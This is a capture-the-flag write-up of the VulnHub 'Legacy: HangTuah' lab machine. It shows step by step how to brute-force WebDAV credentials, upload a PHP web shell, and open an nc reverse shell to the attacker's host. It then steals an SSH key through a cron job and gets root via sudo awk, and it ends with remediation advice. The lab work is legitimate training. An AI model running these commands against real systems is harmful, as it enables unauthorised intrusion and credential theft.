

# Legacy Hangtuah

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [Legacy: HangTuah](https://www.vulnhub.com/entry/legacy-hangtuah,539/)
- CVSS3 : [AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Hang Tuah was a warrior who lived in Malacca during the reign of Sultan Mansur Shah in 15th century. He was supposedly the most powerful of all the laksamana or admirals and is considered by the Malays to be one of history's greatest silat masters. This works better with VirtualBox rather than VMware*

## Summary

Legacy: HangTuah starts with the `legacyhangtuah.com` domain name stored in the `robots.txt` endpoint, and after user `ffuf` I discovered the `door.legacyhangtuah.com` virtual host, and after a dictionary attack with `feroxbuster` I find the `/webdav` endpoint, but it requires basic auth that I was able to discover `admin:admin` after use `hydra` to perform another dictionary attack. After reading about  [WebDAV in Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) I identify that I could probably update, delete, move, and copy files, after some tests I was able to upload files with the `PUT` method, then I upload a reverse shell and I got a shell with the `www-data` user. When exploring the server I use `LinPEAS` and notice that the `/opt/pendekar/official_letter.txt` file is changing, then I use the `Pspy64` to see the process in real-time and the user `pendekar` is running cronjob that takes the path stored in `official_letter.txt` to copy its content into  `send_letter.txt`, and the `www-data` user has writable permission on the `official_letter.txt` then I write the path to the `pendekar`  `id_rsa` file and I was able to read it in the `send_letter.txt` file. with that private key, I was able to connect through `SSH` with the `pendekar` users, and that private key was reused to the `hangtuah` user, then I can `SSH` with the same key to both users. When exploring the server with the `hangtuah` user I discover that it has permission to run `/usr/bin/awk` as root with `sudo`, then after read in `gtfobins` I learn how to perform the privilege escalation using `awk` and get the root shell.

1. CWE-1393: Use of Default Password
2. CWE-434: Unrestricted Upload of File with Dangerous Type
3. CWE-0916: Use of Password Hash With Insufficient Computational Effort
4. CWE-732: Incorrect Permission Assignment for Critical Resource
6. CWE-521: Weak Password Requirements
7. 5. CWE-269: Improper Privilege Management

#VirtualBox #Nmap #CyberChef #HashID #HashCat #Python #Feroxbuster #Ffuf #vhosts #LinPEAS #FTP #WebDAV #Hydra #MD5 #PUT #Pspy #awk #gtfobins

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration
And I find out that the IP is `192.168.2.13`.


And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-sca 192.168.2.13
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 08:42 EST
Nmap scan report for 192.168.2.13
Host is up (0.0053s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
777/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.15 seconds
```
And I identify 3 open ports , the `OpenSSH 8.2p1` service runs in `22` TCP, and the `Apache httpd 2.4.41` service runs on `80` TCP, and the `vsftpd 3.0.3` service runs in `777` TCP, and it runs on `Ubuntu 4ubuntu0.1`.
When I rescan it with general script scans:
```shell
$ nmap -p 22,80,777 -sCV -oA scans/nmap-tcp-script-scan 192.168.2.13
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 08:52 EST
Nmap scan report for 192.168.2.13
Host is up (0.0033s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 eb:69:e0:4f:d0:4e:9e:98:73:9b:fb:67:3a:36:de:21 (RSA)
|   256 17:1c:eb:9e:be:a5:68:25:f1:24:8b:0d:23:5d:9b:c1 (ECDSA)
|_  256 e0:1b:77:26:eb:cb:93:94:b5:f0:04:a3:29:9c:33:c7 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
777/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.2.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.13 seconds
```
Then I can see that FTP services allow `Anonymous` user. When I use the `nmap` script `http-enum`:
```shell
$ nmap -p 80 -sV --script=http-enum -oA scans/nmap_http_scan 192.168.2.13
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 08:56 EST
Nmap scan report for 192.168.2.13
Host is up (0.0074s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-enum:
|_  /robots.txt: Robots file

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.44 seconds
```
Then I can see that there is a `/robots.txt` endpoint. When I visit `192.168.2.13/robots.txt`
Then I find the domain:
```
...
Sitemap: http://legacyhangtuah.com
```
And find the domain `legacyhangtuah.com` and I add it to my known hosts file:
```shell
$ echo "192.168.2.13 legacyhangtuah.com" | sudo tee -a /etc/hosts
```


## Normal use case
Given I access to `http://192.168.2.13`, Then I can see


But it is Apache's default HTML page, when I visit `http://legacyhangtuah.com`, then I can see a website about a mobile app:


But it does not have any hyperlinks.


## Dynamic detection
WebDAV is misconfigured and it uses default credentials, and Insecure file upload with default credentials in WebDAV allows remote code execution.

Given I found a hostname, and it contains nothing useful, then I can guess that the server has another virtual host.
When I try to find vhosts with `fuff` using a list of Seclists:
```shell
$ ffuf -H "Host: FUZZ.legacyhangtuah.com" -c -w \
> subdomains-top1million-20000.txt:FUZZ -u http://192.168.2.13 -fs 11319
...SNIPPED...
door  [Status: 200, Size: 2062, Words: 226, Lines: 58]
...SNIPPED...
```
Then I can see the `door.legacyhangtuah.copm` vhost, and I add it to my `/etc/hosts`.
When I visit http://door.legacyhangtuah.com, then I can see a poem:


When I run `feroxbuster` on the site with a list of Seclists:
```shell
feroxbuster -w directory-list-2.3-small.txt -u \
> http://door.legacyhangtuah.com/
...SNIPPED...
301  GET  9l   28w  335c http://door.legacyhangtuah.com/images
200  GET  116l 998w 6554c http://door.legacyhangtuah.com/LICENSE
401  GET  14l  54w  470c http://door.legacyhangtuah.com/webdav
...SNIPPED...
```
Then I find some endpoints. When I search for `WebDAV` on google, and I find an article on [Hacktricks about WebDAV](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav), and it says that I could probably update, delete, move and copy files, and that sometimes it requires basic auth credentials. When I access `http://door.legacyhangtuah.com/webdav`. Then it asks me for basic auth credentials.
When I use the `hydra` command with Seclists to bruteforce basic auth:
```shell
$ hydra -L top-usernames-shortlist.txt -P \
> Common-Credentials/10k-most-common.txt -f \
> door.legacyhangtuah.com http-get /webdav
...SNIPPED...
[80][http-get] host: door.legacyhangtuah.com login: admin password: admin
...SNIPPED...
```
Then I find the `admin:admin` credentials. When I access the `/webdav` endpoint with the found credentials, then I can see the file `passwd.dav`:


When I use the `curl` command:
```shell
$ curl door.legacyhangtuah.com/webdav/passwd.dav -u 'admin:admin'
admin:$apr1$9tA20Rqw$4qbIQ4QFUV6uUVhfH9NSJ/
```
Then I identify a hash of the `admin` user, and I save the hash in a file called `admin.hash`., when I use the `hashid` command:
```shell
$ hashid admin.hash
--File 'admin.hash'--
Analyzing '$apr1$9tA20Rqw$4qbIQ4QFUV6uUVhfH9NSJ/'
[+] MD5(APR)
[+] Apache MD5
--End of file 'admin.hash'--
```
Then I can see that it is an `Apache MD5` hash. when I look up the hash mode in `hashcat`:
```shell
$ hashcat --help | grep -i "MD5"
...SNIPPED...
1600 | Apache $apr1$ MD5, md5apr1, MD5(APR) | FTP, HTTP, SMTP, LDAP Server
...SNIPPED...
```
Then I identify the mode `1600`. When I run `hashcat` with the Rockyou list to crack it:
```shell
$ hashcat -a 0 -m 1600 admin.hash \
> /mnt/d/miguel/estudiar/HTB/rockyou.txt --force
...SNIPPED...
$apr1$9tA20Rqw$4qbIQ4QFUV6uUVhfH9NSJ/:admin
...SNIPPED...
```
But it is the same password that I used for basic auth, and I remember that the Hacktricks article talks about handling files. When I check the `OPTIONS`  method in the `/webdav` endpoint:
```shell
curl -X OPTIONS door.legacyhangtuah.com/webdav/ -u 'admin:admin' -v
...SNIPPED...
< Server: Apache/2.4.41 (Ubuntu)
< DAV: 1,2
< DAV: <http://apache.org/dav/propset/fs/1>
< MS-Author-Via: DAV
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,
  MOVE,LOCK,UNLOCK
...SNIPPED...
```
Then I can see that I can use multiples methods, and I may be able to upload files.

Given I can access `door.legacyhangtuah.com/webdav`, and I find the `admin:admin` credentials for basic auth, and I read in Hacktricks that `WebDAV` is used to handle files, and the server runs `Apache` with a PHP backend, then I start looking for a way to perform a reverse shell. when I make a `PUT` request to a new endpoint `test` with the `curl` command:
```shell
$ curl -X PUT door.legacyhangtuah.com/webdav/test \
> -u 'admin:admin' -v -d "Data"
...SNIPPED...
< HTTP/1.1 201 Created
...SNIPPED...
<p>Resource /webdav/test has been created.</p>
...SNIPPED...
```
Then it seems that the file was created. When I check with a `GET` request to `/webdav/test`:
```shell
$ curl door.legacyhangtuah.com/webdav/test -u 'admin:admin'
Data
```
then I can see the word 'Data', and if I check the directory listing, now the `test` file appeard:


When I upload PHP code to `/webdav/cmd_id.php`:
```shell
$ curl -X PUT door.legacyhangtuah.com/webdav/cmd_id.php \
> -u 'admin:admin' -v -d "<?php system('id'); ?>"
```
And I make a GET request to /webdav/cmd_id.php:
```shell
$ curl door.legacyhangtuah.com/webdav/cmd_id.php -u 'admin:admin'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I can conclude that the server is vulnerable to PHP command injection.

## Exploitation

Given I can access `door.legacyhangtuah.com/webdav`, and I found the `admin:admin` credentials for basic auth, and I verify that I can upload PHP files with the PUT requests method, and the server runs the PHP file, then I perform a reverse shell to enumerate the server.

When I make a PUT request to upload a file called `rs.php`:
```shell
$ curl -X PUT door.legacyhangtuah.com/webdav/rs.php -u 'admin:admin' -d \
> '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \
> 192.168.2.6 1234 >/tmp/f"); ?>'
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I make a `GET` request to the `/webdav/rs.php` file:
```shell
$ curl door.legacyhangtuah.com/webdav/rs.php -u 'admin:admin'
```
Then I get the user's shell `www-data`:


When I explore the files on the server, then I found a series of suspicious notes:


And there is a directory that is called `...`


But it does not seem to be helpful, then I decided to use some tools to enumerate the server. When I download the `linpeas.sh` and `pspy64` from their GitHub repositories, and I start an `HTTP` server with Python:
```shell
$ python -m http.server 8000
```
And I download the `linpeas.sh` file on the target server:
```shell
www-data@legacyhangtuah:/tmp$ wget 192.168.2.6:8000/linpeas.sh
```
And I download the `pspy64` file on the target server:
```shell
www-data@legacyhangtuah:/tmp$ wget 192.168.2.6:8000/pspy64
```
And I run the `linpeas.sh` file in the background:
```
www-data@legacyhangtuah:/tmp$ ./linpeas.sh &
...
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/opt/pendekar/official_letter.txt
...
```
Then I can see that something is modifying the file, and maybe it is a cronjob. When I run the `pspy64` file in the background:
```shell
$ www-data@legacyhangtuah:/tmp$ ./pspy64 &
```
Then I can see that the user `1001` is running multiple commands. and it is because there is a cronjob:


And user `1001` is `pendekar`, and I examine the file `/opt/pendekar/official_letter.txt`, and I notice that it changes frequently, and as well as the file `/home/pendekar/send_letter.txt`, and by the context of the `gold` provided above I guess if `send_letter.txt` stores the data of another file, and this data is inside the `official_letter.txt` file,and I have written permission on the `official_letter.txt` file, and I try to change the path with the path of the OpenSSH private key:
```shell
www-data@legacyhangtuah:/opt/pendekar$ echo \
> "/home/pendekar/.ssh/id_rsa" > official_letter.txt
```
And I start to print the content of the file `send_letter.txt`,then I get the private key


When I copy the private key to a file called `id_rsa`, and I change the permissions with the `chmod` command:
```shell
$ chmod 400 id_rsa
```
And use the `ssh` command:
```shell
$ ssh -i id_rsa pendekar@192.168.2.13
```
Then I get the pendekar shell, and the user flag :


## Lateral movement

When I check the `/home/hangtuah` directory, and I find a suspicious file called `lasnotes.txt`,and I can see something that looks like morse code.and I use `CyberChef` to decode it:


And it says:
```
I GIVE YOU PERMISSION ALREADY... THE "KEY"... YOU KNOW WHAT I MEAN
BECAUSE YOU ARE PENDEKAR! - HANGTUAH
```
And after some time exploring the server, when I check the sudo files in `/etc`:
```shell
pendekar@legacyhangtuah:/home/hangtuah$ ls /etc/sudo* -la
...SNIPPED...
-r--r--r--  1 root root   56 Aug 21  2020 pendekar
...SNIPPED...
```
When I read the `pendekar` file:
```
$ pendekar@legacyhangtuah:/home/hangtuah$ cat /etc/sudoers.d/pendekar
...SNIPPED...
pendekar legacyhang=(hangtuah) NOPASSWD:/usr/bin/reboot
```
But this binary does not exist, and after thinking for several days, and to analyze the meaning of the morse code inside the `lastnote.txt` file, then I notice that maybe the `id_rsa` key can be reused. When I try to use the `ssh` command with the same `id_rsa`. But instead of the user `pendekar`, I use the user `hangtuah`:
```shell
$ ssh -i id_rsa hangtuah@192.168.2.13
```
Then it works, and I start to enumerate the `hangtuah` user.


## Privilege escalation

When I run the `sudo` command:
```shell
$ sudo -l
...SNIPPED...
User hangtuah may run the following commands on legacyhangtuah:
(root) NOPASSWD: /usr/bin/awk
```
Then I can run the `awk` command as root with no password required. When I search for the binary on the [gtfobins awk](https://gtfobins.github.io/gtfobins/awk/) page, and I follow the instructions.

When I use the `awk` command:
```shell
$ sudo awk 'BEGIN {system("/bin/sh")}'
```
Then I get the root shell



And I find the root flag


## Remediation
Given `/webdav` uses default credentials for the `admin` user, And `/webdab` allows uploading a malicious file, and PHP executes all the code it finds, then they have to use strong credentials,  and block PHP file upload, and with the server user management, prevent the `www-data` from reading, and writing to files it does not require, and for each user use a different `ssh` private key, and avoid allowing users to run commands as the root user, then with that, it may not be possible to get the root's shell.